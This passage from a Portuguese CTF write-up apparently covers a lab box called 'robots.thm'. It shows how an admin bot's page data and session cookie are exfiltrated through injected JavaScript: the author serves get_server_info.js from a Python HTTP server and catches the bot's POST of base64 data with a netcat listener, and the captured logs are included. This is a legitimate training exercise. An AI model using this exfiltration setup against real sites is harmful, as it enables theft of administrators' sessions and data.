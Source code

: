 Subindo o servidor python na porta 80 em minha máquina:

```bash
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Subindo o netcat na porta 4444 em minha máquina:

```bash
sudo nc -lvnp 4444
```

Usuário registrado e podemos ver que nosso arquivo get_server_info.js foi requisitado:

```bash
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.56.148 - - [24/Jul/2025 23:10:38] "GET /get_server_info.js HTTP/1.1" 200 -
```

também podemos notar a seguinte conexão no terminal do netcat:

```bash
sudo nc -lvnp 4444
Connection from 10.10.56.148:48438
POST /server_info HTTP/1.1
Host: 10.6.61.234:4444
Connection: keep-alive
Content-Length: 99145
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/127.0.6533.119 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://robots.thm
Referer: http://robots.thm/
Accept-Encoding: gzip, deflate

data=PCFET0NUWVBFIGh0bWwgUFVCTElDICItLy9XM0MvL0RURCBYSFRNTCAxLjAgVHJhbnNpdGlvbmFs[Conteúdo Omitido...]
```

Copiei o conteúdo do `data`, savei em outro arquivo e fiz o decode para html:

```bash
cat base64.txt | base64 -d >> server_info.html
```

Agora temos o server info, gerado pelo admin, olhando para o HTTP COOKIE:

![PHP Session Admin](/notes/writeups-robots-images/php-session-admin.png)

